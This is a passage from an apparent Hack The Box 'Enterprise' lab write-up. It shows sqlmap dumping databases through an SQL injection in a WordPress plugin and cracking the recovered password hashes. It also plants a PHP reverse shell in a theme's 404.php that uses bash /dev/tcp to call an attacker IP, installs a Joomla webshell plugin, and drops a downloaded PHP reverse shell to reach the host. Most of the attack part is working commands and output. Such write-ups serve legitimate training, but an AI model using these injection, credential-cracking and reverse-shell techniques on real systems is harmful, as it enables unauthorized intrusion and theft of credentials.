[05:03:00] [INFO] fetching database names
[05:03:01] [INFO] retrieved: 'information_schema'
[05:03:01] [INFO] retrieved: 'joomla'
[05:03:02] [INFO] retrieved: 'joomladb'
[05:03:02] [INFO] retrieved: 'mysql'
[05:03:02] [INFO] retrieved: 'performance_schema'
[05:03:03] [INFO] retrieved: 'sys'
[05:03:03] [INFO] retrieved: 'wordpress'
[05:03:03] [INFO] retrieved: 'wordpressdb'
available databases [8]:
[*] information_schema
[*] joomla
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
[*] wordpressdb

[05:03:03] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb'                           
```

It works! It has all databases including `joomla`, `joomladb`, `wordpress`, `wordpressdb`.

Let's investigate all of them.

The db `joomla` is empty.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D joomla --tables

<SNIP>

[05:09:21] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10, PHP 5.6.31
back-end DBMS: MySQL >= 5.0
[05:09:21] [INFO] fetching tables for database: 'joomla'
[05:09:22] [INFO] fetching number of tables for database 'joomla'
[05:09:22] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[05:09:22] [INFO] retrieved: 0
[05:09:24] [WARNING] database 'joomla' appears to be empty
[05:09:24] [ERROR] unable to retrieve the table names for any database
do you want to use common table existence check? [y/N/q] N
No tables found
[05:09:24] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb' 
```

What about `joomladb`?

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D joomladb --tables

<SNIP>

Database: joomladb
[72 tables]
+-------------------------------+
| edz2g_assets                  |
| edz2g_associations            |
| edz2g_banner_clients          |
| edz2g_banner_tracks           |
| edz2g_banners                 |
| edz2g_categories              |
| edz2g_contact_details         |
| edz2g_content                 |
| edz2g_content_frontpage       |
| edz2g_content_rating          |

<SNIP>

| edz2g_user_notes              |
| edz2g_user_profiles           |
| edz2g_user_usergroup_map      |
| edz2g_usergroups              |
| edz2g_users                   |
| edz2g_utf8_conversion         |
| edz2g_viewlevels              |
+-------------------------------+

[05:10:04] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb'


┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D joomladb -T edz2g_users --dump

<SNIP>

| id  | otep    | email                          | name       | otpKey  | params                                                                                       | block   | password                                                     | username        | sendEmail | activation | resetCount | registerDate        | requireReset | lastResetTime       | lastvisitDate       |
+-----+---------+--------------------------------+------------+---------+----------------------------------------------------------------------------------------------+---------+--------------------------------------------------------------+-----------------+-----------+------------+------------+---------------------+--------------+---------------------+---------------------+
| 400 | <blank> | geordi.la.forge@enterprise.htb | Super User | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | 0       | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | geordi.la.forge | 1         | 0          | 0          | 2017-09-03 19:30:04 | 0            | 0000-00-00 00:00:00 | 2017-10-17 04:24:50 |
| 401 | <blank> | guinan@enterprise.htb          | Guinan     | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | 0       | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | Guinan          | 0         | <blank>    | 0          | 2017-09-06 12:38:03 | 0            | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 |
+-----+---------+--------------------------------+------------+---------+--
```

I found two credentials here:
- `geordi.la.forge` : `$2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy`
- `guinan` : `$2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q`

These two hashes are all `bcrypt` (hashcat mode 3200) hashes.

Let's try cracking these.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat joomla.hashes 
$2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy
$2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q


┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 3200 -a 0 joomla.hashes /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

```

Took quite long, but couldn't crack any of these...??

Let's move onto next database : `wordpress` and `wordpressdb`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpressdb --tables

[05:25:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10, PHP 5.6.31
back-end DBMS: MySQL >= 5.0
[05:25:49] [INFO] fetching tables for database: 'wordpressdb'
[05:25:50] [INFO] fetching number of tables for database 'wordpressdb'
[05:25:50] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[05:25:50] [INFO] retrieved: 0
[05:25:51] [WARNING] database 'wordpressdb' appears to be empty
[05:25:51] [ERROR] unable to retrieve the table names for any database
do you want to use common table existence check? [y/N/q] N
No tables found
[05:25:51] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb' 
```

`wordpressdb` is empty. What about `wordpress`?

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpress --tables 

<SNIP>

Database: wordpress
[12 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+


┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpress -T wp_users --columns

<SNIP>

Database: wordpress
Table: wp_users
[10 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| display_name        | varchar(250)        |
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(255)        |
| user_email          | varchar(100)        |
| user_login          | varchar(60)         |
| user_nicename       | varchar(50)         |
| user_pass           | varchar(255)        |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
+---------------------+---------------------+


┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpress -T wp_users -C ID,user_login,user_pass --dump

<SNIP>

Database: wordpress
Table: wp_users
[1 entry]
+----+---------------+------------------------------------+
| ID | user_login    | user_pass                          |
+----+---------------+------------------------------------+
| 1  | william.riker | $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2. |
+----+---------------+------------------------------------+
```

It successfully extract the password(hash) for `william.riker`.
The user `william.riker` is the one we found before with `wpscan`.

I tried to crack it using `hashcat` but it was not crackable...

Since none of the hashes found are not crackable, I tried to retrieve the post from `wp_posts` table.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpress -T wp_posts -C post_content --dump

<SNIP>

[06:06:14] [INFO] table 'wordpress.wp_posts' dumped to CSV file '/home/kali/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv'    
[06:06:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb'
```

It was so large to dump, but I could find some passwords in some of the posts.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat /home/kali/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv.1 | grep password
ID,guid,pinged,to_ping,post_date,post_name,post_type,menu_order,post_title,ping_status,post_author,post_parent,post_status,post_content,post_excerpt,comment_count,post_date_gmt,post_modified,post_password,comment_status,post_mime_type,post_modified_gmt,post_content_filtered
66,http://enterprise.htb/?p=66,<blank>,<blank>,2017-09-06 15:40:30,<blank>,post,0,Passwords,open,1,0,draft,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,0000-00-00 00:00:00,2017-09-06 15:40:30,<blank>,open,<blank>,2017-09-06 14:40:30,<blank>
67,http://enterprise.htb/?p=67,<blank>,<blank>,2017-09-06 15:28:35,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:28:35,2017-09-06 15:28:35,<blank>,closed,<blank>,2017-09-06 14:28:35,<blank>
68,http://enterprise.htb/?p=68,<blank>,<blank>,2017-09-06 15:40:30,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:40:30,2017-09-06 15:40:30,<blank>,closed,<blank>,2017-09-06 14:40:30,<blank>
```

Here are the passwords found :
- `ZxJyhGem4k338S2Y`
- `enterprisencc170`
- `ZD3YxfnSjezg67JZ`
- `u*Z14ru0p#ttj83zS6`

With these found credentials, let's try cracking hashes again.

Starting from the credentials of `joomla`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 3200 -a 0 joomla.hashes passwords.txt                      
hashcat (v6.2.6) starting

$2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy:ZD3YxfnSjezg67JZ
$2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q:ZxJyhGem4k338S2Y
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: joomla.hashes
Time.Started.....: Fri Jan  3 06:13:41 2025 (1 sec)
Time.Estimated...: Fri Jan  3 06:13:42 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       47 H/s (1.94ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new), 2/2 (100.00%) Salts
Progress.........: 6/6 (100.00%)
Rejected.........: 0/6 (0.00%)
Restore.Point....: 0/3 (0.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: ZxJyhGem4k338S2Y -> ZD3YxfnSjezg67JZ
Hardware.Mon.#1..: Util: 27%
```

 Both hashes are cracked, and I owned two valid credentials for `joomla`.
- `geordi.la.forge` : `ZD3YxfnSjezg67JZ`
- `guinan` : `ZxJyhGem4k338S2Y`

Let's do the same for `william.riker`'s hash on `wordpress`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 400 -a 0 wp.hash passwords.txt
hashcat (v6.2.6) starting

<SNIP>

$P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.:u*Z14ru0p#ttj83zS6     
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.
Time.Started.....: Fri Jan  3 06:17:24 2025 (0 secs)
Time.Estimated...: Fri Jan  3 06:17:24 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2128 H/s (0.07ms) @ Accel:128 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4/4 (100.00%)
Rejected.........: 0/4 (0.00%)
Restore.Point....: 0/4 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:7680-8192
Candidate.Engine.: Device Generator
Candidates.#1....: ZxJyhGem4k338S2Y -> u*Z14ru0p#ttj83zS6
Hardware.Mon.#1..: Util: 32%
```

Here I found a password for `william.riker`!
- `william.riker` : `u*Z14ru0p#ttj83zS6`


# Shell as `www-data` on Wordpress

Here is the reference to open a reverse shell on wordpress:
https://www.hackingarticles.in/wordpress-reverse-shell/

### Reverse shell using wordpress admin panel

Let's login as `william.riker` on wordpress `/wp-admin` page.



The credential worked, and I was redirected to wordpress admin panel.



Once I have an access to wordpress admin panel, the easiest method is editing php file.
I can edit `404.php` file to spawn a reverse shell.

I inserted the following php code in `404.php` code.

```php
<?php
if (isset($_GET['bokchee'])) {
    $ip = escapeshellarg($_GET['ip']);
    $port = escapeshellarg($_GET['port']);
    system("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
}
?>
```

Then I fetched the `404.php` page using the following URL:
`http://enterprise.htb/?p=169&bokchee=1&ip=10.10.14.4&port=443`

It intentionally triggers `404.php` page loading by fetching non-existing page.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.61] 35140
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b8319d86d21e:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, I can get a shell as `www-data`!

### Docker network

Unfortunately, this doesn't allow us to get the user flag easily.

```bash
www-data@b8319d86d21e:/home$ cat user.txt
cat user.txt
As you take a look around at your surroundings you realise there is something wrong.
This is not the Enterprise!
As you try to interact with a console it dawns on you.
Your in the Holodeck!
```

To understand the host, I enumerated through the target shell.

```yaml
www-data@b8319d86d21e:/home$ ls -al /
ls -al /
total 72
drwxr-xr-x  73 root root 4096 May 30  2022 .
drwxr-xr-x  73 root root 4096 May 30  2022 ..
-rwxr-xr-x   1 root root    0 Sep  3  2017 .dockerenv
drwxr-xr-x   2 root root 4096 May 30  2022 bin
drwxr-xr-x   2 root root 4096 May 30  2022 boot
drwxr-xr-x   5 root root  340 Jan  3 06:21 dev
drwxr-xr-x  70 root root 4096 May 30  2022 etc
drwxr-xr-x   2 root root 4096 May 30  2022 home
drwxr-xr-x  13 root root 4096 May 30  2022 lib
drwxr-xr-x   2 root root 4096 May 30  2022 lib64
drwxr-xr-x   2 root root 4096 May 30  2022 media
drwxr-xr-x   2 root root 4096 May 30  2022 mnt
drwxr-xr-x   2 root root 4096 May 30  2022 opt
dr-xr-xr-x 222 root root    0 Jan  3 06:21 proc
drwx------   2 root root 4096 May 30  2022 root
drwxr-xr-x   7 root root 4096 May 30  2022 run
drwxr-xr-x   2 root root 4096 May 30  2022 sbin
drwxr-xr-x   2 root root 4096 May 30  2022 srv
dr-xr-xr-x  13 root root    0 Jan  3 06:21 sys
drwxrwxrwt   3 root root 4096 Jan  3 06:22 tmp
drwxr-xr-x  44 root root 4096 May 30  2022 usr
drwxr-xr-x  33 root root 4096 May 30  2022 var
```

Given the `.dockerenv` file in `/` directory, I think we are in `docker` environment.
To collect more information, let's see what's in `wp-config.php` file that we found before on http(443) enumeration.

```bash
www-data@b8319d86d21e:/var/www/html$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'NCC-1701E');

/** MySQL hostname */
define('DB_HOST', 'mysql');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         '2bfc1650943c2c5b62e31637481fdc04c5be50bf');
define('SECURE_AUTH_KEY',  '793b47a06051495f9700711b166fd1977882da54');
define('LOGGED_IN_KEY',    '60af8fe7325c75bbeec4ce140ac1f052f4d3d5cd');
define('NONCE_KEY',        'e8ca955667563b04b225c7268f8cf1f00c87c891');
define('AUTH_SALT',        'a3599324fb87ccfe09554ad9523765bf40a59c2a');
define('SECURE_AUTH_SALT', 'dd6752c340fd68909cd4e2f0eea03a3d8ef28279');
define('LOGGED_IN_SALT',   '9a01df7b37e2c700d4fadff98a8034d2b445addc');
define('NONCE_SALT',       '253750278534eb62736ed8ac986fd473c57acd3e');

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the Codex.
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

// If we're behind a proxy server and using HTTPS, we need to alert Wordpress of that fact
// see also http://codex.wordpress.org/Administration_Over_SSL#Using_a_Reverse_Proxy
if (isset($_SERVER['HTTP_X_FORWARDED_PROTO']) && $_SERVER['HTTP_X_FORWARDED_PROTO'] === 'https') {
        $_SERVER['HTTPS'] = 'on';
}

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
```

It exposes DB credential : `root` : `NCC-1701E` on host `mysql`.

However, when I tried to connect to the database, I saw that the target doesn't have `mysql` command.

```bash
www-data@b8319d86d21e:/var/www/html$ mysql      
mysql
bash: mysql: command not found
```

I think there must be different host represented as `mysql`.
Let's check `/etc/hosts` file.

```bash
www-data@b8319d86d21e:/var/www/html$ cat /etc/hosts
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      mysql 15af95635b7d
172.17.0.4      b8319d86d21e
```

There are two hosts in the network 172.17.0.0/24.
Let's quickly check the docker's IP address.

```bash
www-data@b8319d86d21e:/var/www/html$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.4/16 scope global eth0
       valid_lft forever preferred_lft forever
```

They are all in same local network.. Let me do a quick ping sweep to find existing hosts in the network.

```bash
www-data@b8319d86d21e:/var/www/html$ for i in {1..254}; do (ping -c 1 172.17.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;

64 bytes from 172.17.0.2: icmp_seq=0 ttl=64 time=0.047 ms
64 bytes from 172.17.0.4: icmp_seq=0 ttl=64 time=0.053 ms
64 bytes from 172.17.0.3: icmp_seq=0 ttl=64 time=0.299 ms
64 bytes from 172.17.0.1: icmp_seq=0 ttl=64 time=0.047 ms
```

172.17.0.2 is `mysql`... 172.17.0.4 is `wordpress`... What's 172.17.0.3??

```bash
www-data@b8319d86d21e:/var/www/html$ curl http://172.17.0.3 | grep joomla
curl http://172.17.0.3 | grep joomla
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--   100  7653  100  7653    0     0  74235      0 --:--:-- --:--:-- --:--:-- 75029
        <script type="application/json" class="joomla-script-options new">{"system.paths":{"root":"","base":""},"system.keepalive":{"interval":840000,"uri":"\/index.php\/component\/ajax\/?format=json"}}</script>
```

Assuming the only left found service is `joomla`, I tried to fetch `http://172.17.0.3` and grep 'joomla' in the response.

Overall, I came to the conclusion that the hosts are as follows;
- 172.17.0.1 : host
- 172.17.0.2 : mysql
- 172.17.0.3 : joomla
- 172.17.0.4 : wordpress

I enumerated further, but there's nothing more useful in this host...
Let's move onto Joomla again.


# Shell as `www-data` on Joomla

### Reverse shell exploiting Joomla Plug-in

The credential for `guinan` is not working while the other one for `geordi.la.forge` is working.



There's an error on the admin panel, but still the upper tab menu is activated.
I'll try the "Plug-in" approach used in [DEVVORTEX](../Devvortex/DEVVORTEX.md).

I uploaded a plug-in zip file in `/dist` directory, and installed the extension.
Then, I can open an interactive shell with `console.py`.

```bash
┌──(kali㉿kali)-[~/htb/Joomla-webshell-plugin]
└─$ python console.py -t http://enterprise.htb:8080
[webshell]> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As I found before, it's also in docker environment.
I can find it with `.dockerenv` file.

```bash
[webshell]> ls -al
total 80
drwxr-xr-x  77 root root 4096 May 30  2022 .
drwxr-xr-x  77 root root 4096 May 30  2022 ..
-rwxr-xr-x   1 root root    0 Sep  3  2017 .dockerenv
drwxr-xr-x   2 root root 4096 May 30  2022 bin
drwxr-xr-x   2 root root 4096 May 30  2022 boot
drwxr-xr-x   5 root root  340 Jan  3 06:21 dev
-rwxrwxr-x   1 root root 3131 Aug 31  2017 entrypoint.sh
drwxr-xr-x  70 root root 4096 May 30  2022 etc
drwxr-xr-x   2 root root 4096 May 30  2022 home
```

Same message on `user.txt` flag.

```bash
[webshell]> cat /home/user.txt
As you take a look around at your surroundings you realise there is something wrong.
This is not the Enterprise!
As you try to interact with a console it dawns on you.
Your in the Holodeck!
```

Let's see what's in the webroot directory.

```yaml
[webshell]> ls -al /var/www/html
total 16988
drwxr-xr-x 18 www-data www-data    4096 May 30  2022 .
drwxr-xr-x  4 root     root        4096 May 30  2022 ..
-rw-r--r--  1 www-data www-data    3006 Sep  3  2017 .htaccess
-rw-r--r--  1 www-data www-data   18092 Aug 14  2017 LICENSE.txt
-rw-r--r--  1 www-data www-data    4874 Aug 14  2017 README.txt
drwxr-xr-x 11 www-data www-data    4096 May 30  2022 administrator
drwxr-xr-x  2 www-data www-data    4096 May 30  2022 bin
drwxr-xr-x  2 www-data www-data    4096 May 30  2022 cache
drwxr-xr-x  2 www-data www-data    4096 May 30  2022 cli
drwxr-xr-x 20 www-data www-data    4096 May 30  2022 components
-r--r--r--  1 www-data www-data    3053 Sep  6  2017 configuration.php
-rwxrwxr-x  1 www-data www-data    3131 Sep  7  2017 entrypoint.sh
drwxrwxrwx  2 root     root        4096 Oct 17  2017 files
-rw-rw-rw-  1 www-data www-data 5457775 Sep  8  2017 fs.out
-rw-rw-rw-  1 www-data www-data 8005634 Sep  8  2017 fsall.out
-rw-rw-rw-  1 www-data www-data 2044787 Sep  7  2017 goonthen.txt
-rw-r--r--  1 www-data www-data    3005 Aug 14  2017 htaccess.txt
drwxr-xr-x  5 www-data www-data    4096 May 30  2022 images
drwxr-xr-x  2 www-data www-data    4096 May 30  2022 includes
-rw-r--r--  1 www-data www-data    1420 Aug 14  2017 index.php
drwxr-xr-x  4 www-data www-data    4096 May 30  2022 language
drwxr-xr-x  5 www-data www-data    4096 May 30  2022 layouts
drwxr-xr-x 11 www-data www-data    4096 May 30  2022 libraries
-rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb
-rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb.php
drwxr-xr-x 26 www-data www-data    4096 May 30  2022 media
-rw-rw-rw-  1 www-data www-data 1474911 Sep  7  2017 mod.out
drwxr-xr-x 28 www-data www-data    4096 Jan  3 12:54 modules
-rw-rw-rw-  1 www-data www-data  252614 Sep  7  2017 onemoretry.txt
-rw-rw-rw-  1 www-data www-data     793 Sep  8  2017 out.zip
drwxr-xr-x 16 www-data www-data    4096 May 30  2022 plugins
-rw-r--r--  1 www-data www-data     836 Aug 14  2017 robots.txt
drwxr-xr-x  5 www-data www-data    4096 May 30  2022 templates
drwxr-xr-x  2 www-data www-data    4096 Jan  3 12:54 tmp
-rw-r--r--  1 www-data www-data    1690 Aug 14  2017 web.config.txt
-rw-r--r--  1 www-data www-data    3736 Sep  6  2017 wordpress-shell.php
```

One thing outstanding here is the directory owned by `root`.
That is the only one which is owned by `root` in this directory.

```bash
[webshell]> ls -al /var/www/html/files
total 12
drwxrwxrwx  2 root     root     4096 Oct 17  2017 .
drwxr-xr-x 18 www-data www-data 4096 May 30  2022 ..
-rw-r--r--  1 root     root     1406 Oct 17  2017 lcars.zip
```

Given the `lcars.zip` file, it's the one we found from https(443) service.
And the directory is writable by `others`.

I think that the https(443) service we observed before is hosted by the Host system.
What if I put `php-reverse-shell.php` file here, and the server can run this php?
Then, I can expect to open a reverse shell on the Host! Let's try.

Let's upload the `php-reverse-shell.php` file on `/var/www/html/files` directory.

```bash
(Kali)
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.61 - - [03/Jan/2025 10:31:15] "GET /php-reverse-shell.php HTTP/1.1" 200 -


(Docker target)
[webshell]> curl http://10.10.14.4:8000/php-reverse-shell.php -s -o /var/www/html/files/php-reverse-shell.php
```


Then, I can open this page through browser.



Let's wait on listener.

```sql
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.61] 41182
Linux enterprise.htb 4.10.0-42-generic #46-Ubuntu SMP Mon Dec 4 14:38:01 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 15:34:41 up  9:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami


$ hostname -I
10.10.10.61 172.17.0.1 dead:beef::250:56ff:fe94:3613 
```

Based on the IP address `10.10.10.61`, I think I got a shell as `www-data` on Host target!


# Shell as `root`

### Enumeration

For the enumeration, `linpeas`, `pstree`, `pspy64` are useful.

Let's run `pstree`.

```lua
www-data@enterprise:/tmp$ pstree                                           
pstree                                                                     
systemd-+-VGAuthService                                                    
        |-accounts-daemon-+-{gdbus}                                        
        |                 `-{gmain}                                        
        |-acpid                                                            
        |-agetty                                                           
        |-apache2-+-9*[apache2]                                            
        |         `-apache2---sh---sh---python3---bash---pstree            
        |-atd                                                              
        |-cron                                                             
        |-dbus-daemon                                                      
        |-dockerd-+-docker-containe-+-docker-containe-+-mysqld---35*[{mysqld}]                                                                        
        |         |                 |                 `-9*[{docker-containe}]                                                                         
        |         |                 |-docker-containe-+-apache2-+-9*[apache2]                                                                         
        |         |                 |                 |         `-apache2---sh---bash---bash                                                          
        |         |                 |                 `-9*[{docker-containe}]                                                                         
        |         |                 |-docker-containe-+-apache2---10*[apache2]                                                                        
        |         |                 |                 `-9*[{docker-containe}]                                                                         
        |         |                 `-14*[{docker-containe}]               
        |         |-docker-proxy---5*[{docker-proxy}]                      
        |         |-docker-proxy---6*[{docker-proxy}]                      
        |         `-16*[{dockerd}]                                         
        |-irqbalance                                                       
        |-2*[iscsid]                                                       
        |-lvmetad                                                          
        |-lxcfs---6*[{lxcfs}]                                              
        |-polkitd-+-{gdbus}                                                
        |         `-{gmain}                                                
        |-rsyslogd-+-{in:imklog}                                           
        |          |-{in:imuxsock}                                         
        |          `-{rs:main Q:Reg}                                       
        |-snapd---6*[{snapd}]                                              
        |-sshd                                                             
        |-systemd-journal                                                  
        |-systemd-logind                                                   
        |-systemd-resolve                                                  
        |-systemd-timesyn---{sd-resolve}                                   
        |-systemd-udevd                                                    
        |-vmtoolsd---{gmain}                                               
        `-xinetd   
```

Docker services are the web services we enumerated before.
Beside these, what's `xinetd`?
It's old outdated service management daemon.
It will allow you to run a program over a port.

Let's see how the command line looks like.

```bash
www-data@enterprise:/tmp$ ps aux | grep xinetd
ps aux | grep xinetd
root       1510  0.0  0.1  15044  2044 ?        Ss   06:21   0:00 /usr/sbin/xinetd -pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6
www-data  48070  0.0  0.0  11288   932 pts/0    S+   18:14   0:00 grep xinetd


www-data@enterprise:/tmp$ ls -al /etc/xinetd.d/lcars
ls -al /etc/xinetd.d/lcars
